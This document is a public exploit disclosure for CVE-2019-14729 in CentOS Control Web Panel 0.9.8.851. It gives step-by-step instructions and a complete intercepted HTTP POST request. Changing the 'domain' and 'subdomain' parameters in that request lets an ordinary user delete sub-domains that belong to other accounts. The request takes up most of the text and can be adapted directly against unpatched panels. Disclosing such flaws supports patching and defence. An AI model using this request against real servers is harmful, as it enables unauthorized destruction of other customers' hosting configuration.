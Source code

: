 ```
Exploit Title       : CWP (CentOS Control Web Panel) Delete other sub-domain
Date                : 24 Jul 2019
Exploit Author      : Pongtorn Angsuchotmetee, Nissana Sirijirakal, Narin Boonwasanarak
Vendor Homepage     : https://control-webpanel.com/
Software Link       : Not available, user panel only available for lastest version
Version             : 0.9.8.851
Tested on           : CentOS 7.6.1810 (Core) FireFox 68.0.1 (64-bit)
CVE-Number          : CVE-2019-14729
Reference	    : N/A
```

1. Log in as a normal user.
2. Go to "Domains >> Sub Domains"
3. Try to delete any sub-domain from the account
4. Intercept the request, and modify parameter "domain" and "subdomain"


```
POST /cwp_47e1d536a096e42d/alice/alice/index.php?module=subdomains&acc=subdomaindelete HTTP/1.1
Host: 192.168.80.148:2083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
csrftoken: 9a1f7869d43544fc9f509cb6ac7bf430
X-Requested-With: XMLHttpRequest
Content-Length: 32
Connection: close
Referer: https://192.168.80.148:2083/cwp_47e1d536a096e42d/alice/?module=subdomains
Cookie: PHPSESSID=i2is5am08ru7a2h93e13llp9e2

domain=<TARGET-DOMAIN>&subdomain=<TARGET-SUBDOMAIN>
```